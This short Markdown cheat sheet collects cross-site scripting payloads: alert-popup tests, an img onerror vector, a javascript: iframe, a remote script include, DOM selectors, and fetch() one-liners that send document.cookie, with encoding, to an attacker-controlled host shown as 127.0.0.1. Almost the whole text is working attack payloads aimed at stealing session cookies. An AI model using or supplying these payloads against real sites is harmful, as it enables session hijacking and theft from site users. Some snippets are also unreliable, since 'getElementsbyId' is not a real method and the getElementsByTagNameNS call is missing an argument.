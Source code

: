 # Basic JavaScript popups


```<script>alert(0)</script>```

```<img src='x' onerror='alert(0)'>```

```<iframe src="javascript:alert(0)"></iframe>```

# Obtain a script from remote host - useful if there is a character limit


```<script src='http://127.0.0.1'></script>```


# Useful JavaScript to interact with specific in-page elements


```document.getElementsByTagName("Tag-name-here")```

```document.getElementsbyId("Id-here")```

```document.getElementsByClassName("Class-name-here")```

```document.getElementsByName("Name-here")```

```document.getElementsByTagNameNS("Tag-in-namespace-here")```

# Performing a get request to a third-party service


```fetch("http://127.0.0.1")```

Extracting cookies:

```fetch("http://127.0.0.1?x="+document.cookie)```

Ensuring the content is treated as a sting:

```fetch("http://127.0.0.1?x="+JSON.stringify(document.cookie))```

Encoding content which has characters that can mess with things:

```fetch("http://127.0.0.1?x="+encodeURIComponent(JSON.stringify(document.cookie)))```

